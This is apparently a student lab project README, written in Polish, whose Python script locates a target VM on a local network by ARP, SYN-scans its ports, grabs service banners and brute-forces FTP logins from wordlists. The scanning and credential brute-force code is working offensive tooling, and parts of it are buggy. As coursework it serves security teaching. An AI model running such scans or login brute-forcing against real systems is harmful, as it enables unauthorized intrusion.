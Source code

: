 # Projekt-JDD

Grupa w składzie:
- Jerzy Tarasiewicz
- Damian Tomala
- Dorota Gliniak

Grupa podjęła decyzję o tym aby wszystkie 6 zadań były w jednym pliku pod tytułem "project.py".

# Zadanie numer 1:
Ustalić własny IP.
W terminalu wykonaliśmy polecenie (ip a)
Załączniki w postaci screenshotów:
-Zadanie 1 SS1
-Zadanie 1 SS2

# Zadanie numer 2:
Ustalić maskę podsieci.
W terminalu wykonalismy polecenie (ifconfig)
Załączniki w postaci screenshotów:
- Zadanie 2 SS1
- Zadanie 2 SS2

# Zadanie numer 3:
Na podstawie powyższych informacji przeskanować sieć i ustalić adres IP celu.

Otworzyliśmy VBox i sprawdziliśmy MAC adres celu. Po czym ustaliliśmy adres IP celu na podstawie zadania 1 oraz 2.
Załączniki w postaci screenshotów:
- Zadanie 3 SS1
- Zadanie 3 SS2

# Zadanie numer 4:
Ustalić otwarte porty na atakowanej maszynie.

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 5:
Ustalić nazwę oraz wersję oprogramowania dla wszystkich znalezionych usług (banner grabbing).

Załączniki w postaci screenshotów:
- Zadanie 4 SS1

# Zadanie numer 6:
Przeprowadzić atak brute-force na dowolną znalezioną usługę (nie musi się udać).

Załączniki w postaci screenshotów:
- Zadanie 6 SS1



# KOD

################################ 1 - GET LOCAL IP ADDRESS ################################

import socket

def get_local_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        s.connect(('10.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

local_ip = get_local_ip()
print(local_ip)

################################ 2 - GET MASK ADDRESS ################################

from pyroute2 import IPRoute
ip = IPRoute()
info = [{'iface': x['index'], 'addr': x.get_attr('IFA_ADDRESS'), 'mask':  x['prefixlen']} for x in ip.get_addr()]

print(info)
a = info[1]

for k, v in a.items():
    if k == 'mask':
        print(v)
        break
masks = {0:'0.0.0.0', 1:'128.0.0.0', 2:'192.0.0.0', 3:'224.0.0.0', 4:'240.0.0.0', 5:'248.0.0.0', 6:'252.0.0.0', 7:'254.0.0.0', 8:'255.0.0.0', 9:'255.128.0.0', 10:'255.192.0.0', 11:'255.224.0.0', 12:'255.240.0.0', 13:'255.248.0.0', 14:'255.252.0.0', 15:'255.254.0.0', 16:'255.255.0.0', 17:'255.255.128.0', 18:'255.255.192.0', 19:'255.255.224.0', 20:'255.255.240.0', 21:'255.255.248.0', 22:'255.255.252.0', 23:'255.255.254.0', 24:'255.255.255.0', 25:'255.255.255.128', 26:'255.255.255.192', 27:'255.255.255.224', 28:'255.255.255.240', 29:'255.255.255.248', 30:'255.255.255.252', 31:'255.255.255.254', 32:'255.255.255.255'}

for index, mask in masks.items():

    if index == v:
        index == mask
        print("netmask: ", mask)
        break

################################ 3 - Looking for target IP ################################


from scapy.all import *
from scapy.layers.inet import IP, TCP, Ether
from scapy.layers.l2 import ARP

for i in range(100, 105):
    ip = "192.168.0.{}".format(i)
    pakiet = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip, hwdst="ff:ff:ff:ff:ff:ff")
    dane = srp1(pakiet, timeout=1, verbose=0)
    target_MAC = '08:00:27:89:f6:2e'

    if dane:
        print("adres IP: {}, adres MAC: {}".format(str(dane.psrc), str(dane.hwsrc)))
        if target_MAC == dane.hwsrc:
            print("Target IP: ", str(dane.psrc))
            target_IP = dane.psrc

################################ 4 - Ports scaning ################################

cel = target_IP
pakiet = IP(dst="google.com")/ICMP()/"Projekt"
for port in range(22):
    pakiet = IP(dst=cel)/TCP(dport=[port], flags = "S")
    rec, wrong = sr(pakiet, timeout=1, verbose=0)
    print(rec)
    
    if rec:
        usluga = "{}".format(str(str(rec[0]).split(" ")[7][6:]))
        dane = f"Port: {port} otwarty, usluga = {usluga}"
        print(dane)
    else:
        print(f"{port} Port zablokowany")

################################ 5 - Banner Grabbing ################################

import socket
import sys

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

target = target_IP

for port in range(1, 65000):
    try:
        connection = s.connect((target, port))
        print(f"[+] {target}: port {port} is OPEN")
        s.send("Get banner \r\n".encode())
        response = s.recv((2048)).decode()
        print("Name and version service: ", response)
    except:
        pass

################################ 6 - Brute Force ################################

import ftplib
users = open("usernames.txt", "r")
passwords = open("passlist.txt", "r")

target = target_IP
for user in users:
    for password in passwords:
        print(f"Trying> {user}:{password}")

        try:
            ftp_server = ftplib.FTP()
            ftp_server.connect(target, 21, timeout=2)
            ftp_server.login(user, password)
            print("[+] Login successful.")
            ftp_server.close()
        except Exception as exc:
            print("[-] Brute-force attack failed!")
